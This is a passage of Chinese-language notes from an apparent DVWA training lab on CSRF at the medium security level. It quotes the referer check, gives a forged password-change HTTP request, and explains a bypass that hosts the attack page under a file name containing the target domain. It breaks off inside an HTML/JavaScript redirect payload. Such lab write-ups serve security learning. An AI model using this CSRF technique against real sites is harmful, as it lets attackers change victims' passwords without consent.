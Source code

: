 
或是直接發link 給受害者只要是那個登入過的瀏覽器去請求的他只要跳轉就可以了。

<br/><br/>





# Medium

* stripos 字串1有沒有找到字串2
判斷refer 找不找的到 www.dvwa.com
注意: www.dvwa.com 是我自己創建的網域

```php=
  if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```



```http=
GET /vulnerabilities/csrf/?password_new=111111111111&password_conf=22222222222&Change=Change HTTP/1.1
Host: www.dvwa.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change
Cookie: PHPSESSID=qm98fvgpvaostapd4eekcg3oco; security=medium
Upgrade-Insecure-Requests: 1


```










假設受害者在 www.hack.com 跳轉了 http://www.dvwa.com/vulnerabilities/csrf/

refer = www.hack.com 所以過不了。


* 解法:
攻擊者只要製造出一個檔名是有 www.dvwa.com 字串的就可以。
<br/>

以下我用了JS 常用的跳轉都失敗，原因是這種refer 都是 www.k.com 並不是完整url

http://www.k.com/www.dvwa.com.html
```htmlembedded=
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>

</body>



<script type="text/javascript">
	
/*
window.location.assign("http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change");
```